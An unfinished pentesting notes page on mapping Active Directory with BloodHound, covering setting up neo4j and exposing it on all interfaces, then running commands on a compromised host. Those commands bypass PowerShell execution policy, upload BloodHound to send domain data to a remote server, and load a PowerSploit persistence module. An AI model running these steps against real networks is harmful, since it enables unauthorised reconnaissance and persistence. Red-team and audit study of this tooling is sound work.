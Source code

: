 ### Mapping AD with BloodHound

One of the glorious design features of AD is that everyone needs to know where everything is. So when you get user credentials and/or a shell, you can basically map the entire domain. Any user can query Active Directory for groups and sessions.

Now we can use that to make a cool GUI map of the entire AD which can be quirired in using BloodHound. Do the following:

- [Set up neo4j](https://neo4j.com/developer/kb/how-do-i-enable-remote-https-access-with-neo4j-30x/)
- Run neo4j from `/opt/neo4j-community-3.1.1/bin/neo4j`
- Navigate to localhost:7474 in your browser.
- Set a new password for the neo4j account.
- Edit neo4j.conf and set the following parameters to make any host be able to access the database.
```
dbms.connector.http.enabled=true
dbms.connector.http.listen_address=0.0.0.0:7474
```

- Launch bloodhound and log in to the neo4j database

This part is not finished
```
powershell -exec bypass
upload /path/bloodhound.ps1
Import-Module ./BloodHound.ps1
Invoke-BloodHound -URI http://SERVER:7474/ -UserPass "user:pass"
```


kan nå laste opp powersploit moduler.
upload /path/powersploit/persistence.msl1
import-module ./persistence.msl1
Get-SecurityPackages

